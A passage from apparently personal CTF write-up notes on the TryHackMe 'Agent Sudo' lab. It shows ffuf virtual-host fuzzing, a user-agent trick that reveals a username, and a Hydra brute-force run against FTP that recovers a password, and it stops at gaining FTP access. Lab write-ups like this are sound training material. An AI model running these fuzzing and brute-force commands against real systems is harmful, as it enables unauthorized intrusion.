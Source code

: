 We run [FFuf](../../3%20-%20Tags/Hacking%20Tools/FFuf.md) and check **Size** then re-run with correct filter-size (-fs) :

```
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/AgentSudo]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -H 'Host: FUZZ.sudo.thm' -u http://sudo.thm -fs 218 -c  


```

nothing.

### Website

<img src="../../Flameshots/d1e991aac0330206ce335ec112638db9.png" alt="d1e991aac0330206ce335ec112638db9.png" width="370" height="171" class="jop-noMdConv">

So we need the **codename** .

We modify the user-agent in the request in [Developer tools](../../3%20-%20Tags/Hacking%20Concepts/Developer%20tools.md) and resend it, we find a page:

<img src="../../Flameshots/a3e1cd23a665cff66f9bd84751957fff.png" alt="a3e1cd23a665cff66f9bd84751957fff.png" width="655" height="127" class="jop-noMdConv">

We have a username .

## FTP

We don't have anonymous access in [FTP](../../3%20-%20Tags/Hacking%20Concepts/FTP.md) .

### Hydra

We can crack the password of the found user with [Hydra](../../3%20-%20Tags/Hacking%20Tools/Hydra.md) using her wizard:

```
Welcome to the Hydra Wizard

Enter the service to attack (eg: ftp, ssh, http-post-form): ftp
Enter the target to attack (or filename with targets): sudo.thm
Enter a username to test or a filename: chris
Enter a password to test or a filename: /usr/share/wordlists/rockyou.txt
If you want to test for passwords (s)ame as login, (n)ull or (r)everse login, enter these letters without spaces (e.g. "sr") or leave empty otherwise: 
Port number (press enter for default): 21

[DATA] attacking ftp://sudo.thm:21/
[21][ftp] host: sudo.thm   login: chris   password: crystal

```

### First Access

Now we can enter [FTP](../../3%20-%20Tags/Hacking%20Concepts/FTP.md) to see what's there and get it to our directory :
